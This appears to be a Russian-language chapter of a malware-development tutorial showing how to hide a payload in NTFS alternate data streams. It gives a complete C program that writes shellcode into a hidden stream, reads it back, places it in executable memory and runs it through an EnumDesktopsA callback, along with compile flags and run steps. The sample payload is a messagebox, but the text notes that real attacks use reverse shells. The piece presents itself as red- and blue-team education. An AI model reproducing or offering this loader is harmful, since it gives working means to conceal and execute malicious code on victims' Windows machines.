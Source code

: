 \newpage
\subsection{46. трюк разработки вредоносного ПО. Хранение полезной нагрузки в альтернативных потоках данных. Простой пример на C++.}

﷽

![хак](./images/105/2023-07-27_04-58.png){width="80%"}      

Сегодня этот пост является результатом моего собственного исследования ещё одного популярного трюка разработки вредоносного ПО: хранение вредоносных данных в альтернативных потоках данных (ADS) и способы их использования злоумышленниками для обеспечения постоянства.     

### альтернативные потоки данных

Альтернативные потоки данных (ADS) позволяют связывать несколько "потоков" данных с одним именем файла, что может использоваться для хранения метаданных. Хотя эта функция была разработана для поддержки *Macintosh Hierarchical File System (HFS)*, который использует ресурсные форки для хранения значков и другой информации о файле, её можно использовать (и она уже использовалась) для сокрытия данных и вредоносного кода.    

### практический пример

Ниже приведён простой пример кода для хранения полезной нагрузки в ADS `hack.c`:      
```cpp
/*
hack.c
malware store data in alternate data streams
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/26/malware-tricks-35.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  // name of the file to which we'll attach the ADS
  char* filename = "C:\\temp\\meow.txt";

  // name of the ADS
  char* streamname = "hiddenstream";

  // full path including the ADS
  char fullpath[1024];
  sprintf(fullpath, "%s:%s", filename, streamname);

  // the data we're going to write to the ADS
  // meow-meow messagebox
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  printf("original payload: ");
  for (int i = 0; i < sizeof(my_payload); i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // write data to the ADS
  HANDLE hFile = CreateFile(fullpath, GENERIC_WRITE, 0, NULL, 
  CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully write payload data to the ADS\n");
  DWORD bw;
  WriteFile(hFile, my_payload, sizeof(my_payload) - 1, &bw, NULL);
  CloseHandle(hFile);

  // now read the data back
  hFile = CreateFile(fullpath, GENERIC_READ, 0, NULL, 
  OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully read payload data from file\n");

  unsigned char data[sizeof(my_payload) - 1];
  DWORD br;
  ReadFile(hFile, data, sizeof(data), &br, NULL);
  CloseHandle(hFile);

  printf("read from file, payload:\n");
  for (int i = 0; i < sizeof(data); i++) {
    printf("%02x ", data[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, data, sizeof(data));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Логика довольно проста. Этот код записывает данные в ADS, а затем считывает их обратно. Затем запускает полезную нагрузку через [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html).

Как обычно, в качестве полезной нагрузки я использовал `meow-meow` messagebox для простоты:

```cpp
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

Этот код создаёт альтернативный поток данных (ADS) с именем `hiddenstream` в указанном файле и записывает в него полезную нагрузку. Затем он читает данные обратно и выводит их для проверки корректности. В реальном сценарии данные могут представлять собой вредоносный исполняемый файл, например, обратный шелл или другой шеллкод, который затем может быть извлечён во временное расположение и выполнен отдельно.       

### демонстрация

Давайте посмотрим эту логику в действии.      

Компилируем:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![хак](./images/105/2023-07-27_04-59.png){width="80%"}      

Затем переносим тестовый файл жертвы `meow.txt` в `C:\temp\`:     

![хак](./images/105/2023-07-27_23-22.png){width="80%"}      

И, наконец, запускаем:     

```powershell
.\hack.exe
```

![хак](./images/105/2023-07-27_23-21.png){width="80%"}      

Мы можем проверить альтернативные потоки данных командой:     

```powershell
Get-Item -Path C:\temp\meow.txt -Stream *
```

![хак](./images/105/2023-07-27_23-24_1.png){width="80%"}      

![хак](./images/105/2023-07-27_23-24.png){width="80%"}      

Как можно заметить, всё сработало, как и ожидалось! =^..^=    

Обратите внимание, что функция альтернативных потоков данных (ADS) специфична для файловой системы `NTFS`, другие файловые системы, такие как `FAT32`, `exFAT`, `ext4` (используемая в Linux), не поддерживают эту функцию.      

Этот метод выполнения кода часто используется [APT29](https://attack.mitre.org/groups/G0016) и [APT32](https://attack.mitre.org/groups/G0050), а также программным обеспечением типа [PowerDuke](https://attack.mitre.org/software/S0139).       

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[T1564.004 - Hide Artifacts: NTFS File Attributes](https://attack.mitre.org/techniques/T1564/004/)      
[APT29](https://attack.mitre.org/groups/G0016)     
[APT32](https://attack.mitre.org/groups/G0050)     
[malpedia: APT29](https://malpedia.caad.fkie.fraunhofer.de/actor/apt29)     
[malpedia: APT32](https://malpedia.caad.fkie.fraunhofer.de/actor/apt32)      
[PowerDuke](https://attack.mitre.org/software/S0139)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-07-26-malware-trick-35)           

